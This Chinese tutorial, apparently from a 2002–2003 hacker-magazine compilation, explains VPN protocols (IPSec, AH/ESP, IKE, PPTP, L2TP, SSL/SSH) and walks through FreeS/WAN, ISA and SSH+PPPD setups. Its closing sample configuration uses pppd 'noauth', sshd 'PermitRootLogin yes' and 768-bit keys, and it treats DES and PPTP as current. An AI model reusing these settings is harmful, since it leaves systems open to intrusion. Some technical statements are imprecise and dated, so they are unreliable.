SPD数据库构件基于所提供服务类型策略之上，这些策略包括哪些地址需要应用的安全标准的各种类型，那些地址则可以不使用IPSec进行安全设置，而SPD定义的保护范围常由管理员设置和维护。通常，IP数据包经策略机制，其类似于一个精美的扇形机械化“电子海关检查站”（哈！），数据包被筛选后有三种处理结果：承载IPSec安全服务、数据包丢弃和绕过IPSec安全服务，即IPSec在端点处根据策略要求，对IP包执行加载安全特性、不加载安全特性和防止数据进出的操作。

SAD数据库则包含与SA相关的参数，这些SA是由SPD数据库所决定。

#### 1.3 安全保镖

如果把SA比喻为公交车，安全数据库比喻为车站进出检查口，而信息数据比喻为乘客，那么公交车在预定线路的行驶中保证乘客安全到达就是一个极其重要的目标。AH和ESP作为IPSec安全体系结构中最重要的“保镖”，恰如其分地担任这一艰巨任务。

##### 1.3.1 认证头部安全协议（AH: Authentication Header）

AH安全协议提供了一种基于包认证的机制，也就是说能对数据完整性和源发数据进行验证。此外，AH使用加密算法和密钥使用方法提供源发数据抗抵赖性，并且提供防止重放攻击和拒绝服务攻击的特性。顾名思义，AH提供认证的基本机制是认证头部。

## 黑客X档案2002-2003年合订本

## 附录

IP头部插入认证头的封装方式产生新IP数据包。为了能了解诸如抗抵赖、源发数据认证等安全特性，其数据包结构简图如图4所示：

注：

**重放攻击**——拦截并记录发出的信息，接受者不能判断所接受的数据是否合法。

**拒绝服务攻击**——发送大量垃圾数据包使网络性能下降，阻塞正常的服务提供。


- 下一头部（Next Header），表明在安全认证头之前的IP数据包协议以及数据包。
- 有效载荷长度（Payload Length），指定认证头总长度。
- 保留位（Reserved），用于未来扩展。
- 安全参数索引（Security Parameters Index），本字段用来唯一地识别安全联盟（SA）。到达方SA所涉及的所有信息（如表示SA建立的参数、IP地址到提供的身份等）都可在SPI中加以标识。接收方通过分析该信息，在收到通知后，识别与判断其真实性。
- 认证数据（Authentication Data），此字段包含用来防止源伪造和篡改的数据完整性校验码，一般经过相应算法得出。

在隧道中，AH头协议把认证头插入到原数据包和新IP头之间，源数据包保持不变地封装到新的IP数据包中，变成了所谓的“包中之包”的认证形式。这种安全机制稍微牺牲CPU处理封装和拆包的损耗，赢得更大的安全利益。由于源发报包被完全隐秘地封装，新IP头只包括在IPSec设备之间的路由信息，因此可以在主机和安全网关之间以隧道模式应用此协议。

AH是算法独立的安全协议，这意味着AH可以根据安全等级需要而选择算法。其主要支持HMAC、MD5和HMAC SHA1加密算法（关于加密算法的专业名词，读者只需要了解名称，探究其实际原理将是另一片广袤土地，可在实际应用中根据透明原则直接使用）。

虽然AH提供了优秀的安全策略保障，但对于数据机密性这一原则性问题并不能很好解决，因此IPSec设计者推出了另一种叫ESP的安全协议。

### 1.3.2 封装安全有效负载安全协议（ESP：Encapsulating Security Payload）

ESP提供数据认证、强加密机制的数据机密性和可选的抗重放攻击等安全措施。和AH类似，ESP也采用插入数据包方式提供安全服务，然而为实现数据机密性的目标，这种插入方式变得比AH复杂很多。其插入结构如图五。


ESP头同样跟随新的IP数据包，而且比AH多附加了源IP数据包的ESP尾部。假如进行认证数据源认证，ESP认证数据段就会附加于IP包中（图五虚线框所表示数据块）。使用加密技术，从ESP头部之后到ESP尾部的数据块中的数据都将被加密。

其格式大致与AH相差不大，因此只对不同部分做结构研究（图六）。

与AH类似，整个源IP数据包被加密封装到新IP包中，唯一区别是在数据包后面加载了ESP尾部和认证数据字段。这样的做法在于在两个安全端点之间传输数据时提供机密性和认证机制，通过填充数据块和加密算法增加数据机密级别。通过ESP头部和尾部的多层封装进一步提高数据包信息保密，附加的认证数据则用于验证数据完整性校验并增强抗抵赖机制。


ESP也采用独立算法机制，目前支持DES、3DES、RC5、Blowfish、Idea、Cast等算法。

##### 1.3.3 协议小结

汗流浃背地经历AH和ESP的讨论，这里提供简明的表格便于读者对两者所提供的安全服务进行直观比较。

| 安全协议 | 数据源认证 | 数据完整性 | 重放攻击保护 | 数据机密性 |
|---|---|---|---|---|
| AH | 支持 | 支持 | 支持 | 不支持 |
| ESP | 支持 | 支持 | 支持 | 支持 |

虽然IPSec的ESP和AH协议在安全设备之间根据SA的协商，安全服务是如何适用于IP数据包中，然而这里很关键的问题是SA到底是如何进行协商？协商的安全保障机制是什么？协商后如何维护和保持隧道安全？这一系列问题将在下面部分给出答案。

#### 1.4 隧道安全协商

协商（negotiated）的概念在商业贸易谈判中准确地描述了一种协作关系，而在VPN结构中，采用此词描述安全隧道建立前的数据交易关系显得非常精彩。计算机的虚拟空间中无处不折射着这个世界的现实影子，似乎网络空间本身就是人际网络的一种延伸形式。

前面提出的诸多问题总可以归结到SA在设备之间建立相互“交流”的关系，在整个VPN安全体系中，使用流行的IKE（Internet Key Exchange；因特网密钥交换协议）密钥交换协议可以动态地实现这个目的。

IKE是基于ISAKMP（Internet Security Association and Key Management Protocol；因特网安全关联和密钥管理协议）协议框架而实现的，并采用了Oakley和SKEME（Secure Key Exchange Mechanism；安全密钥交换机制）密钥交换机制的一些方法。

##### 1.4.1 安全协商管理者

鉴于IKE是以ISAKMP为基础框架，对ISAKMP的讨论显得必要无疑。ISAKMP协议本身定义了对认证通信对等体、安全关联（SA）的创建和管理、密钥产生技术以及缓解诸如重放攻击和拒绝服务攻击等安全威胁的处理方法。而所有这些安全通信协商的管理恰好是建立优秀VPN系统的根本要求。

ISAKMP信息包是一个由ISAKMP数据包头和多个ISAKMP有效信息负载数据块链接形成的、端口为500的UDP数据包。其中ISAKMP头数据块中包括用于防止拒绝服务攻击的初始（initiator）和响应（responder）Cookie字段。当两个ISAKMP对等体协商成功后，Cookie字段也用于标明对等体安全相关性（SA）。

在SA的协商中，ISAKMP定义两个阶段：在第一个阶段是两ISAKMP对等体之间的协商，这里令各对等体之间在如何保护即将进行的通信安全问题上达成共议（注意，这里的SA与IPSec中所表述的SA意义完全不同，前者是整条安全链路建立的SA协商，后者是针对单个数据包而言，恰好有“线”型、“点”之间的区别）。ISAKMP的安全关联（SA）是双向联系的，它维护和保持着IPSec封装数据流通链路的安全性。ISAKMP安全关联协商的第二阶段是在建立的ISAKMP对等体之间进行其他安全协议（比如AH、ESP）的SA协商。由于对等体之间的通信链路在第一阶段后成为安全通道，第二阶段的安全协议协商处理速度将加快。ISAKMP信息数据格式分解如图七。

| UDP头部 | ISAKMP头部 | ISAKMP有效信息负载1 | ISAKMP有效信息负载2 | ... | ISAKMP有效信息负载N |
|---|---|---|---|---|---|

| 初始Cookie（8 bytes） |
|---|
| 响应Cookie（8 bytes） |

| 下一有效信息负载 | 主版本号 | 次版本号 | 交换类型 | 标志 |
|---|---|---|---|---|

| 信息ID号 |
|---|

| 信息字节长度 |
|---|

> 图七、ISAKMP信息数据包结构

##### 1.4.2 安全协商模式

前面提到IKE是建立于ISAKMP协议框架之上，因此它也继承了两阶段的SA协商。IKE更为细致的是在两阶段的协商会话中，采用不同的操作模式。

在第一阶段协商会话中，于两个IPSec端点之间使用六种不同的消息交换方法完成端点认证和密钥生成原料的安全协商，通常把这种交换模式称为主要模式。

第二阶段协商仅使用三个消息在两个端点之间进行认证，由于第一阶段已经建立安全通道，因此此过程的协商方式也简便很多。安全协议的SA协商主要在这一阶段被实现。（注：关于IKE所采用的Oakley和SKEME密钥交换机制，讨论很多内容超出本文所论述的IPSec协议簇的焦点，希望深入研究的读者可以分别参阅RFC2412文档和“A Versatile Secure Key Exchange Mechanism for Internet”一文，两份资料均收藏于附带提供软件包的doc目录中。）

浅略讨论完极其复杂且框架结构庞大的IPSec体系，对其安全性设计的思维的确令人赞赏，然而网络世界并不仅只存在IP类型的数据包，这个空间地带同样生存着其他种族协议，诸如IPX、NetBIOS等在赛伯空间内某些区域仍发挥着它们各自的优势。因此IPSec的方案似乎略显不足，而如果根据所有三层协议分别设计IPXSec、NetBIOSSec，那将是非常烦琐而且极其费力的事情。如何解决这一问题？

有基础的读者一定能想到在OSI清晰的体系结构中，可以在二层链路上寻找出路，事实上情况的确如此，下面将结合三层网络空间和二层链路空间开始研究VPN的构建方法。

### ☆ 二层链路的隧道

在利用隧道技术设计通用协议封装时，使用多才多艺的PPP实现链路层对多种协议的支持，并且提供压缩和认证等特性，再与使用TCP/IP提供网络层传输的互连通用性的优点结合，能较好地设计出一套精妙的VPN实现方案。于是由3COM、微软和U.S. Robotics等公司联合研制了通过Internet的隧道数据传输协议PPTP。

### 1．PPTP小议

PPTP建立于PPP协议和TCP/IP协议的综合基础之上。支持多协议的PPP提供了认证和数据保密压缩的方法，而IP可在Internet任意路由。PPTP允许在一个存在的IP连接中使用隧道技术实现一次PPP会话，这意味着本机连接中封装会话的机制将让普通拨号用户在公众网络与企业网联系起来，实现组织内部的网络资源共享。

在隧道中，PPTP把任何IP、IPX、NetBEUI数据包封装到新的IP包中进行发送；接受端则执行相应的拆封操作。而最为有趣的是PPTP封装PPP帧到IP数据包，进行隧道传输。其原理是使用PPTP连接控制创建、维护和终止隧道连接，而使用GRE（Generic Routing Encapsulation）技术对传输PPP帧进行数据封装。其封装格式大致如图八。

| IP头部 | GRE头部 | PPP头部 | PPP有效信息负载 |
|---|---|---|---|

> 图八、PPP数据封装格式

> GRE（Generic Routing Encapsulation：通用路由封装协议）可以对任意网络协议进行封装并传递到其他网络协议；其优点在于灵活的封装机制，使网络协议之间透明集成，无须增加任何协议转换/解释设备。

PPTP继承了PPP支持多种认证机制，诸如Extensible Authentication Protocol（EAP：扩展认证协议 RFC2284）、Challenge Handshake Protocol（CHAP：挑战握手协议 RFC1994）、Shiva Password Authentication Protocol（SPAP：Shiva密码认证协议）和Password Authentication Protocol（PAP：密码认证协议 RFC1334）。

跟IPSec有所不同的是，PPTP隧道两端分别称为PNS（PPTP Network Server：网络服务器）和PAC（PPTP Access Concentrator：PPTP访问连接点）。隧道使用改进的GRE进行封装，PPP数据则在PNS和PAC之间的隧道传输。而基于TCP的控制连接则控制建立、释放和保持隧道和其中的通信会话。注意，在PAC和PNS隧道建立之前，控制连接就必须建立起来。关于PPTP控制连接和隧道数据包格式具体如图九。

| IP头部 | TCP头部 | PPTP控制信息 |
|---|---|---|

> PPTP控制连接数据包

| IP头部 | GRE头部 | PPP头部 | PPP有效信息负载 | 数据校验 |
|---|---|---|---|---|

> PPTP隧道传输数据包

> 图九、PPTP控制/封装数据格式

从图九可以清晰看到，PPTP控制连接是在PAC和PNS之间的IP连接，其数据包携带着用于控制PPTP隧道的PPTP呼叫控制和管理信息。其中包括了间歇性的PPTP回波请求信息和回答信息，用于侦测PAC和PNS之间的物理连接性。而在PPTP隧道中，原始的PPP信息有效负载被PPP头加密和封装成合法PPP帧，此帧使用GRE封装，提供基于IP网络访问的简单方法。

### 2．微软协议实现

微软使用自己的算法和协议实现了PPTP，并把其应用于商业化的VPN产品中（微软的实现方式存在的安全性设计缺陷，在后面部分将会涉及同类话题）。其PPTP服务器实现在NT/2K操作系统上，并且支持明文、散列和挑战/回应三种认证机制以支持其认证安全性。而在PPTP的传输过程中，微软使用自身的加密技术——MPPE来实现隧道传输微软数据包的机密性保护。

由于设计实现的仓促和竞争压力，微软实现的PPTP协议本身也存在巨大安全隐患，在VPN相关安全强度小节中对PPTP安全分析主要也是针对微软的PPTP协议进行分析。

### 3、PPTP安全延伸

作为更加强劲的扩展，L2TP（Layer Two Tunneling Protocol：二层隧道协议）协议综合了微软PPTP和CISCO的L2F（Layer 2 Forwarding）的技术，提供对IP、IPX和AppleTalk协议的全面支持；并且同时支持帧中继、ATM、X.25等广域网技术。可以在Internet和Intranet中作为隧道协议使用。

PPP为二层点对点链路传输协议，也定义了一种封装机制。通常用户使用电话拨号或者ISDN等技术，通过二层链路连接一个NAS（Network Access Server：网络访问服务器），在其上使用PPP协议。在这种配置中，二层中断点和PPP会话端点都位于同一设备——NAS。L2TP延伸PPP的模式，允许二层中断点和PPP会话端点位于不同设备，这样做使隧道技术可以在网络的各个角落应用，增强了VPN应用的空间跨度。

L2TP使用UDP消息在隧道空间维护隧道联系，并确保消息传输的可靠性。此外L2TP也支持EAP、CHAP、SPAP和PAP的认证机制。

L2TP实现隧道技术的方式有两种：强制性隧道和自愿性隧道。强制性隧道的建立需要在NAS服务器设置实现L2TP隧道的协议和相关认证，这对于一般拨号用户来说是非常不实际的（如果需要进行VPN连接，就必须得到电信去办理申请开通的手续，电信的网络然后在其NAS修改相应设置，当然你必须为此付费，电信是从来不做免费业务的！）。


从图十比较看出，基于资源弹性的L2TP隧道模式具有灵活的伸缩性，ISP不参与隧道创建过程，并且隧道可以分布于多个ISP而无须经过具体配置；因此，VPN的L2TP实现方式多数地倾向于自愿性的隧道方式。另一个优势是用户可以决定隧道创建的方式和具体地点，简化了VPN设计的方式。

了解L2TP隧道模式后，我们依然对L2TP很朦胧，因为它是如何运作的？它如何使用自身特性来完成隧道空间数据保护这一重要任务？于是我反复阅读和琢磨了RFC2661文档，费力地总结出一些简单概述：

> “L2TP隧道在ISP和用户终端进行初始化，而组成一个L2TP网络的关键部分是LAC（Link Access Concentrator：链路访问集中器）和LNS（L2TP Network Server：L2TP网络服务器）。LAC执行链路呼叫、隧道协商认证、封装PPP数据于L2TP包和执行控制命令等工作，LNS可以考虑为对用户独立服务的另一个‘实际’的网络设备，它执行PPP的链路控制协议和网络控制协议。”

其实数据包流程图如图11。


对于深入的L2TP技术细节可以参考RFC2661及其相关定义文档。

整个PPTP/L2TP协议的实现和设计方式相对IPSec而言显得简便明晰，而且其协议运用范围的空间似乎普遍得广阔些；实际上IPSec是目前实现VPN最安全的方式。

### ☆ 异类协议支持

### 1、利刃之SSL新用

VPN本身设计的思想精髓就在于如何在公众空间保护成员团体内部消息交流的隐秘性。当加密精英SSL进入了VPN的领域，新兴的VPN+SSL技术立刻抢夺了IPSec的部分空间。致力于IT商业市场预测的Metagroup.com的主要研究人员戴维·托普森指出：“预计到2005年上半年，基于SSL所建立的VPN远程访问应用将占80%，而IPSec只用于特殊应用程序和用户需求。”这意味着使用强大公私密钥协议建立的VPN应用将在未来几年之内迅速增加，而目前许多公司也推出了响应产品。

SSL是一种在Internet传输信息的安全管理协议。它使用公钥加密数据，在SSL链路中进行传输，同时它是一种应用层协议，可以对应用程序进行封装。在对应用层的封装模式中，与IPSec相比，SSL能更轻松地对远程访问提供粒度访问控制。

SSL-VPN使用SSL对终端客户提供授权和安全访问，终端用户只能在组织团体内部指定的安全策略下通过认证访问资源。使用SSL-VPN技术的优点是提供了用户随意访问，由于SSL已经嵌入浏览器中，节省了在IPSec中需要对客户端进行的大量安全策略设置。

利用SSL加密协议实现了用户在隧道空间任意浏览、共享网络文件，然而进行对资源的远程操作和文件交互的解决方式显得不足，因此采用同样使用公私钥加密的SSH协议满足了VPN的另一方面需要。

### 2、利刃之SSH新用

SSH是英文Secure Shell的简写形式。通过使用SSH，可以把所有传输的数据进行加密，防止重放攻击、DNS欺骗和IP欺骗等入侵攻击。同时，SSH对所传输的数据采用压缩方式，加快传输的速度。SSH在设计实现VPN时，主要的目标是能为PPP提供一个安全的“通道”。

使用SSH和PPP构建VPN的设计方法是：使用SSH创建一个通道连接，使用PPP在其中运载TCP/IP数据。在PPP数据帧通过SSH会话时，SSH建立的安全隧道就如同物理中的一根“串行线路”。在SSH服务器端，PPP在SSH会话中以用户权限运行进程，实现链接。在PPP连接之后，所需要的事情就是隧道端点之间的路由过程。

由于SSL/SSH是极为成熟的技术，而且使用这些技术设计VPN的方式是比较新鲜的，所以这里只做概括性表述，省略其原理分析，具体协议可参阅相关RFC文档。

经过满满篇幅的协议概述，目前所有支持VPN技术的协议已经全部介绍完毕。相信读者和我一样，身心早已感到疲劳之极，稍息片刻，令人激动的部分终于到来，下面将进入如何构造VPN的具体应用实例……

## 三、VPN具体建造

本节根据各种实现VPN的协议实例，列举基于不同平台的应用实现。由于考虑网络所具有的开放性和适用性原则，具体实现方式尽可能采用免费方式，使读者能根据自身要求设计个性化的VPN方案。

### 1、FreeS/WAN的开放精神

FreeS/WAN是在Linux下支持IPSec协议的优秀免费软件，

## 附录

在遵守 GNU 的原则下，任何人都可以无所限制地使用。其设计中有一个非常独特的优点是 OE（opportunistic encryption）思想，两个 FreeS/WAN 网关在其管理员没有事先协商通信连接时，就可以基于 IPSec 安全协议簇建立安全隧道。其实现是使用 DNS 的信息进行认证，即在 DNS 设置相关认证信息，这样实体之间的加密连接可以不用烦琐的配置管理而轻松实现。

### 实验环境（图十二）


测试环境

#### 网络配置

- 计算机群A模拟测试主机IP：192.168.1.1
- VPN网关eth0：192.168.1.6；eth1：10.10.10.1
- 计算机群B模拟测试主机IP：192.168.1.9
- VPN网关eth0：192.168.1.14；eth1：10.10.10.2
- 数据库探测主机IP：10.10.10.254
- 公共区域连接方式：HUB

图十二

### 具体配置

#### 1.1 隧道安装

```bash
# VPN网关系统采用 RedHat 7.2，采用 RPM 安装方式快捷方便
##### 下载相应版本 RPM 软件包和签名包
ncftpget ftp://ftp.xs4all.nl/pub/crypto/freeswan/binaries/RedHat-RPMS/`uname -r`/`arch`/ .
##### 假如成功，将得到三个软件包
freeswan-module-2.03-2.4.20-20.9-0.i386.rpm
freeswan-userland-2.03-2.4.20-20.9-0.i386.rpm
freeswan-rpmsign.asc
##### 验证下载包的完整性
pgp -ka freeswan-rpmsign.asc
rpm --checksig freeswan*.rpm
##### 验证成功，软件包完整，没有被恶意修改
freeswan-module-2.03-2.4.20-20.9-0.i386.rpm: pgp md5 OK
freeswan-userland-2.03-2.4.20-20.9-0.i386.rpm: pgp md5 OK
##### 安装软件包
rpm -ivh freeswan*.rpm
##### 开启 IP 包转发机制
echo 1 > /proc/sys/net/ipv4/ip_forward
##### 启动 IPsec 服务
service ipsec start
##### 测试安装成功与否（出现错误可以参阅）
##### http://www.freeswan.org/freeswan_trees/CURRENT-TREE/doc/trouble.html#install.check
ipsec verify
Checking your system to see if IPsec got installed and started correctly
Version check and ipsec on-path [OK]
Checking for KLIPS support in kernel [OK]
Checking for RSA private key (/etc/ipsec.secrets) [OK]
Checking that pluto is running [OK]
```

（注意：KLIPS 是实现 AH、ESP 的核心组件。Pluto 是实现 IKE 及其协商连接的守护进程。）第一次使用 `ipsec verify` 检查安装配置时，会出现 `missing!` 提示。这是由于并没有配置 DNS 选项而引起的，其配置方式将在下面给予具体阐述。

采用 FreeS/WAN 特有的 OE 配置 VPN，可以使用 DNS 提供方便的 VPN 协调认证，快速建立节点间的隧道连接，网络具有很广泛的灵活性。为支持 VPN 网关初始化连接和接受其他 VPN 主机的 OE 连接，还要在域名配置文件中设置相应记录，保证认证的顺利进行。

```bash
# 1. 确定主机身份 ID，用于 DNS 关键字查询和 IPsec 协商
hostname --fqdn
vpngateA.test1.net

# 2. 创建转发 TXT 记录，其中包含网关主机的公钥
##### showhostkey 从 /etc/ipsec.secrets 中取出内容，并转换为 BIND 可以识别的格式
ipsec showhostkey --txt @vpngateA.test1.net
##### RSA 2192 bits vpngateA Wed Nov 5 03:14:37 2003
IN TXT "X-IPsec-Server(10)=vpngateA.test1.net" "AQOptxChFSEX0aFrjQKjJsNmRzfUQOHQOgLSIUANEWH7IbiVAI0UIexEViCOVoVRYpBeZhgrtqpYQ5lpduDhDriUzqURIYNIwK0IA6tblBFmgri+jJaUybH63GBGp2YFmToUVXZz95gYi8mVOjwDbN5pvAfC4w8r1WPmigbX1+7v3xxIJHCtgIyWgkFHSwCMNKR2QnMOnfYYq7sp6LGS/T4b8sdA+i47i+zR/CuQ2Xj3sGfu3P70fAlf1" "19LrksxWCXmjiREovlaPRSDrkGiMmqzkrgHqYbQ0XWBUZ7Jb+L3la3BcOkRJjQLx9Xd9Px9PYppJUNyrkDJoK4041y8ldQooqYRsyxjafwB0blvfd"

# 3. 将上述的记录插入到 DNS 相关域名（关于 DNS 配置不属于本文讨论范畴，故不做配置说明）

# 4. 测试 DNS 正向解析记录是否正常
ipsec verify --host vpngateA.test1.net
##### 在输出内容中应该有如下样例内容
##### "Looking for TXT in forward map: vpngateA.test1.net [OK]"

# 5. 创建反向解析域名记录（注意，这里的 IP 是公网的 IP 地址）
ipsec showhostkey --txt 10.10.10.1  # 实际应用中使用合法公网地址代替此地址。
##### RSA 2192 bits vpngateA Wed Nov 5 03:14:37 2003
IN TXT "X-IPsec-Server(10)=202.98.187.1" "AQOptxChFSEX0aFrjQKjJsNmRzfUQOHQOgLSIUANEWH7IbiVAI0UIexEViCOVoVRYpBeZhgrtqpYQ5lpduDhDriUzqURIYNIwK0IA6tblBFmgri+jJaUybH63GBGp2YFmToUVXZz95gYi8mVOjwDbN5pvAfC4w8r1WPmigbX1+7v3xxIJHCtgIyWgkFHSwCMNKR2QnMOnfYYq7sp6LGS/T4b8sdA+i47i+zR/CuQ2Xj3sGfu3P70fAlf1" "19LrksxWCXmjiREovlaPRSDrkGiMmqzkrgHqYbQ0XWBUZ7Jb+L3la3BcOkRJjQLx9Xd9Px9PYppJUNyrkDJoK4041y8ldQooqYRsyxjafwB0blvfd"
```

#### 1.2 组建局域网隧道

成功安装 FreeS/WAN 并建立自动协商会话后，就需要在公网间建立“私人”隧道空间。

保证组织内部信息机密，就需要分别对 vpngateA 和 vpngateB 进行配置。

修改 vpngateA：`/etc/ipsec.conf`

```conf
conn sec0_ipc
left=10.10.10.1
leftnexthop=10.10.10.2
leftfirewall=yes
right=10.10.10.2
rightnexthop=10.10.10.1
```

在 vpngateB 做相应处理。

#### 1.3 防火墙安全规则

为保证 IPSEC 能正常工作，必须开放下列协议通信。

开放 IKE 协商会话端口：

```bash
iptables -I INPUT -p udp --sport 500 --dport 500 -j ACCEPT
iptables -I OUTPUT -p udp --sport 500 --dport 500 -j ACCEPT
```

开放 ESP 协议：

```bash
iptables -I INPUT -p 50 -j ACCEPT
iptables -I OUTPUT -p 50 -j ACCEPT
```

#### 1.4 隧道加密测试

在加密隧道间移动一台主机，借助 ethereal 抓取数据跟踪。

如从 vpngateA 内部网络发送一条 ping 命令，加入明文干扰，目标是 vpngateB 内部网络的某台主机：

```bash
ping -p abcdefg 192.168.1.9
```

在图十三中，可以看出在加密前，数据内容中的 `abcdef` 是不加密明文，便于字符检索。

验证跟踪详情：

```text
ipsec route
25   192.168.1.1/32   ->   192.168.1.9/32   %pass
```

如果没有加密，将能看到 ethereal 中 ASCII 表示的 `abcdef`，而在 ICMP 加密数据报中是不可识别的，其数据截图如图十三。


从截图可以看出，加密前的 ICMP 数据包类型经过隧道处理后变为 UNKNOWN，并且数据包的源 IP 地址和目标 IP 地址完全被隐藏，截获发送的非关键信息单元无法被识别。

至此，FreeS/WAN 建立了方便易用的 VPN 连接，然而我们只使用 FreeS/WAN 的其中一部分特性，它还可以建立集散的中心——拨号方式的 VPN；安装相应补丁，可以实现 IP 伪装方式的 VPN 设计；配置 `/etc/ipsec.d` 中配置文件，可以设置需要加密和不需加密的通信数据，以及限制加密访问的用户等方式，经常使用的建立其基于 IPSec 安全协议的 VPN 实现。（有关这些具体配置可具体参阅 http://www.freeswan.org 相关文档）

### 2、豪华 ISA 的设计

微软推出基于 .NET 一系列的服务器，对原来的 BackOffice 系列进行彻底的改进，实现的功能几乎完全是想把整个世界给连接起来。据此，ISA 作为其新一代的产品，结合了防火墙、VPN、堡垒主机和负载均衡等多种机制于一体。

ISA 也提供分支机构连接方式和拨号用户的 VPN 访问，其安全实现的大部分特性是建立于 PPTP/L2TP 的安全协议机制上。对于不习惯敲打键盘的学习者来说，ISA 无疑是占绝对优势的 VPN 应用实现。

（上面使用 FreeS/WAN 实现分支机构之间的安全隧道连接，这里主要使用 ISA 实现拨号用户的 VPN。）

- **实验环境**（图十四）


## 1．VPN 网关配置

利用本地 ISA VPN 向导建立本地 VPN 服务器，以接受远程 ISA 发过来的 VPN 连接协商请求。这个向导创建一个按需连接（dial-on-demand）接口以接收从远程 VPN 服务器发出的连接，同时可以配置 IP 包过滤机制保护这些连接。在使用向导创建连接时，可以根据指定需要的协议创建适合的包过滤机制。它也可以设置静态路由，由通道转发本地网络数据到远程网络。创建本地 VPN 服务的同时，向导产生一个 `.vpc` 的配置文件，这可以用于设置远程 ISA VPN 服务器。

##### 1.1 在 ISA Management 控制台选取网络配置属性

“Internet Security and Acceleration Server” → “Servers and Arrays” → “Hostname” → “Network configuration”（图十五）


##### 1.2 根据 VPN 配置向导提示进行配置

输入标志本地网络的连接名和远程网络连接名（图十六）


使用 PPTP/L2TP 自动协商协议（图十七）


由于是提供拨号用户 VPN 访问，所以不需要双向通信（图十八）


指定远程网络的 VPN 地址段，因为拨号用户是动态 IP 地址，所以指定所有 IP 地址（图十九）


指定本 ISA 外网 IP 以及内部网络 IP 地址（图二十）


## 2．拨号用户配置

在远程用户端安装 ISA 服务器，利用远程 ISA VPN 向导设置一个远程 ISA VPN 服务器，以初始化和本地 VPN 服务的连接。向导使用本地 ISA VPN 向导产生的 `.vpc` 文件创建一个按需连接接口（dial-on-demand），用于初始化连接指定的本地 VPN 服务器。使用此向导同样可以定制包过滤策略。

##### 2.1 在 ISA Management 控制台选取网络配置属性

“Internet Security and Acceleration Server” → “Servers and Arrays” → “Hostname” → “Network configuration”

##### 2.2 根据 VPN 配置向导提示进行配置

> 注意：如果没有按照缓存方式安装 ISA，则无法实现 VPN 安全机制！

获得本地管理员配置 VPN 所创建的 `.vpc` 文件；如果需要提高安全度，可在创建 `.vpc` 文件时对文件进行加密（图二十一、图二十二）。


图二十一

设置 Local computer 中本地 ISA VPN 服务器的外网 IP 地址。

设置 remote computer 中远程 ISA VPN 服务器 IP 地址。


图二十二

完成远程拨号用户配置（图二十三）


图二十三

## 3. 安全协议设置

建立 VPN 服务器后，如果想添加其他安全协议，比如在初始化 VPN 服务时使用 PPTP 协议，现在想添加 L2TP 协议支持，需要如下步骤：

##### 3.1

使用 Routing and Remote Access 服务定位按需连接接口（demand-dial interface），选取“Networking”标签，选取相关协议。

##### 3.2

如果增加 PPTP 协议支持，使用 ISA 控制台创建一个过滤器允许 PPTP 协议通过，IP 包过滤器需要配置下列参数：

- 使用预定义的过滤机制：PPTP call 和 PPTP receive

##### 3.3 如果增加 L2TP 支持，则必须创建两个 IP 包过滤器，配置方式分别如下：

过滤器一：在 ISA Management 控制台选取 IP 包过滤器，“Internet Security and Acceleration Server” → “Servers and Arrays” → “Hostname” → “Access Policy” → “IP Packet Filters” → “鼠标右击选择 New…Filter”，参数设置如图二十四。

- 过滤器仅用于本地服务器
- 过滤器类型为：Open
- Custom 过滤器设置中，使用协议端口为 500 的用户数据报协议（UDP）
- 设置 Local computer 中本地 ISA VPN 服务器的外网 IP 地址
- 设置 remote computer 中远程 ISA VPN 服务器 IP 地址


图二十四

过滤器二（图二十五）：

- 过滤器仅用于本地服务器
- 过滤器类型为：Open
- Custom 过滤器设置中，使用协议端口为 1701 的用户数据报协议（UDP）
- 设置 Local computer 中本地 ISA VPN 服务器外网 IP 地址
- 设置 remote computer 中远程 ISA VPN 服务器 IP 地址


图二十五

##### 3.4 包过滤规则创建方法

在 ISA Management 控制台选取 IP 包过滤器，“Internet Security and Acceleration Server” → “Servers and Arrays” → “Hostname” → “Access Policy” → “IP Packet Filters”。

鼠标右击选择 New → “Filter”，参数说明：

- **Servers**：这个过滤规则允许或阻塞指定服务器的通信。
- **Protocol, port, and direction**：这个过滤规则根据指定的端口和协议允许或阻塞对应的数据流。
- **Local computer**：此过滤规则允许或阻塞内网主机对外部网络的访问，可以指定一个 IP 地址空间。
- **Remote computer**：此过滤规则允许或阻塞公网主机 IP 地址对本地网络的访问。

完成整个目标实验环境的建设，移动用户可以方便地通过基于 PPTP/L2TP 安全协议建立 VPN 连接，与企业或组织的完整数据联系。方便的图形界面和对用户透明的知识结构造就了 ISA 强大的 VPN 功能。

此外，gfi.com 还为其提供了免费的防病毒软件，致使经过 VPN 隧道的数据流都可以经过病毒检测，保障网络隧道的数据清洁度。

然而，由于微软设计 PPTP/L2TP 安全协议时，并不对协议本身所实现的思想精髓进行深入研究，导致了这种 VPN 存在了危险的安全隐患。在 VPN 相关安全强度小节将对此进行讨论。


### 3、SSH/SSL 链路

由于 VPN 其实实现目的是通过公网网络建设一个私有的信息隧道空间，于是使用 SSH/SSL 方式的加密链路似乎也成为了 VPN 实现的一种特有方式。SSH/SSL 是基于公钥私钥方式实现安全加密，因此协议本身具有保密、数据完整性和抗抵赖一系列机制，非常符合 VPN 的实现。

#### ☆ SSH+PPPD 的免费 VPN

标题顾名思义，就是使用 SSH 和 PPP 构建 VPN。使用 SSH 创建一个通道连接，使用 PPPD 在其中负载所有 TCP/IP 数据。当 pppd 通过 SSH 会话运载数据时，我们可以把其想象成一根串行线路。在服务器端，PPPD 在 SSH 会话中作为用户的一个 SHELL 运行空间，整个过程在一个加密的隧道空间中实现链接，之后所需要的事情就是其间的路由了。

- 实验环境（图二十六）


- 具体配置
  - 1. 服务器端配置

```bash
##### redhat，自带 pppd 和 ssh 软件包，省略安装步骤
# 裁剪不必要的服务，此例子中只开放 SSHD 和 apache-Web 服务。
# 需要使用 Web 服务器下载一些文件（通过 VPN 方式）。机器上所有认证经过 ssh 公钥认证体系。
```

这种方式下，只有这些公钥的机器能参与会话，三个二进制的密钥长度为 530 字符。

```bash
##### 配置 PPPD
##### /etc/ppp/
##### options 文件会概括 pppd 的全局选项。至少有以下选项：
ipcp-accept-local
ipcp-accept-remote
proxyarp
noauth
# 前两行告诉 pppd 承认 IP 地址及其他终端参数，当挂接远程 OFFICE 时是必要的；如果只连接家庭用户可以关闭。
# 第三行很重要，proxyarp 用于增加 ARP 列表中 IP-MAC 映射，有助于在本地以太网中连接隧道的 IP 序列。
```

```bash
##### 配置 sshd，修改 /etc/ssh/sshd_config
Port 22
ListenAddress 0.0.0.0
HostKey /etc/ssh/host-key
RandomSeed /etc/ssh/random-seed
ServerKeyBits 768
LoginGraceTime 600
KeyRegenerationInterval 3600
PermitRootLogin yes
